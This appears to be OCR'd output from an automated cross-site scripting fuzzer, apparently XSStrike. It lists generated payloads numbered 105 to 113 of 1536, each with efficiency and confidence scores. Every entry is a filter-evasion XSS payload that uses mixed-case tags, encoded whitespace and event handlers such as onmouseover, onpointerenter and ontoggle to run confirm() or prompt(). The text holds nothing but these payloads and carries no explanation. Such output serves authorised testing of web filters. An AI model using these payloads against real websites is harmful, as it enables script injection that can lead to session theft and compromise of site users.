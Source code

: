 ------------------------------------------------------------
 Payload: <a%0donpOiNTerEnter%0a=%0a(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 105/1536
 
------------------------------------------------------------
 Payload: <DetaILs%09onpOiNTERenteR+=+confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 106/1536
 
------------------------------------------------------------
 Payload: <DeTailS%0dOnToGglE%0a=%0aa=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 107/1536
 
------------------------------------------------------------
 Payload: <A/+/onmOuSEoVer%09=%09confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 108/1536
 
------------------------------------------------------------
 Payload: <D3V/+/onMOUseoVer+=+confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 109/1536
 
------------------------------------------------------------
 Payload: <d3V%09oNmoUsEOveR%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 110/1536
 
------------------------------------------------------------
 Payload: <D3V/+/onmOUsEOVeR+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 111/1536
 
------------------------------------------------------------
 Payload: <HtML/+/onmoUseOVER%09=%09[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 112/1536
 
------------------------------------------------------------
 Payload: <A%0aoNmOuSeoVEr%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 113/1536
 